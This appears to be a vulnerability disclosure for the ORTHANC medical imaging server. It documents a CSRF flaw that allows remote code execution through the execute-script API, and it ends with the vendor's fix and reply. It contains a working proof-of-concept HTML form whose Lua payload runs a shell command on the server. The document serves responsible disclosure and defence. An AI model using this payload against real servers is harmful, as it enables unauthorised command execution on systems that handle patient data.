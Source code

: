 # CSRF with remote code execution in ORTHANC server

ORTHANC has official online [demo](https://demo.orthanc-server.com/app/explorer.html)

## Introduction
Insecure ORTHANC api provides following methods:
![Orthanc API](./data/orthanc_api.png)

One of them (`execute-script`) executes Lua commands on the server:

![Example of executing Lua-command](./data/execute_query_example.jpg)


## CSRF

ORTHANC server provides authentication mechanisms. It doesn’t implement any CSRF attack prevention methods. It allows a remote users to execute the API endpoints via CSRF attack.

### STEPS TO REPRODUCE
1. Log in to the web application using a web browser.
2. Create an html page containing the following code:
```
<html>
  <body>
    <form action="http://localhost:8042/tools/execute-script" method="POST" enctype="text/plain">
      <input type="hidden" name="cmd" value="'mkdir /tmp/testCSRF';os.execute(cmd)"/>
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

3. Open this html page in the web browser. 
4. The action (mkdir /tmp/testCSRF) will be executed. You can verify that by checking the existence of /tmp/testCSRF directory on the server.

## Conclusion

The vendor was [informed](./data/Advisory_ORTHANC_CSRF.pdf), and we have received the answer:

about insecure API endpoints:
```
Since Orthanc 1.5.7, a modification has been made to the Orthanc source code in order to disallow the URI "/tools/execute-script" by default, and the user will have to explicitly set the configuration option "ExecuteLuaEnabled" to "true" if she wishes to access this URI:
https://bitbucket.org/sjodogne/orthanc/commits/f07352e0375ca3fcd1b4ff974be6d7cc8f82f92c

This feature will be part of to-be-release Orthanc 1.5.8.
```

about CSRF attack prevention:
```
As now written in the Orthanc FAQ, "In particular, you must create a higher-level application so as to properly deal with CSRF attacks: Indeed, as explained in the introduction, Orthanc is a microservice that is designed to be used within a secured environment."

https://book.orthanc-server.com/faq/security.html
```
